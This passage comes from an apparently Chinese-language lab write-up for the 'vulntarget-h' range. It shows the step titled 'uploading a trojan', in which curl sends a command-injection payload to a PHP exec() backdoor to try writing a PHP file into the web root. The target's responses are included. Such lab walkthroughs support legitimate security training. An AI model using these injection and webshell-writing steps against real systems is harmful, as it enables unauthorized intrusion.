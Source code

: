 ```bash
+ Scan terminated:  12 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-07-02 03:13:08 (GMT-4) (2369 seconds)
```

#### 上传木马

+ 使用浏览器查看网页是否有对我们有用的信息。(需要把火狐浏览器代理模式设置成系统代理)

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 firefox 192.168.153.128
```

![截图_2022-07-02_15-08-05.png](../images/vulntarget-h-WriteUp/截图_2022-07-02_15-08-05.png)

+ 从上面的返回的结果我们可以看到这是需要我们通过命令注入查看`c:\phpstudy_pro\COM\a.txt`文件的内容。由于这里使用`exec`函数并没有返回数据。

+ 我们先尝试能不能在当前目录写入文件。发现并不可以。

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 curl 192.168.153.128 -d "shell=echo '<?php phpinfo();?>'>l.php"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
<code><span style="color: #000000">
<br /></span><span style="color: #0000BB">exec</span><span style="color: #007700">(</span><span style="color: #0000BB">$_POST</span><span style="color: #007<br /></span><span style="color: #0000BB">?></span>小子留下了一个后门，读一下c:\phpstudy_pro\COM\a.txt吧里面有好东西
</span>
</code>         

┌──(kali㉿kali)-[~/Downloads]
└─$ proxychains4 curl 192.168.153.128/l.php                                     
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.128:80  ...  OK
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="utf-8">
  <title>404 错误 - phpstudy</title>
  ...
</head>
...
</html>
```
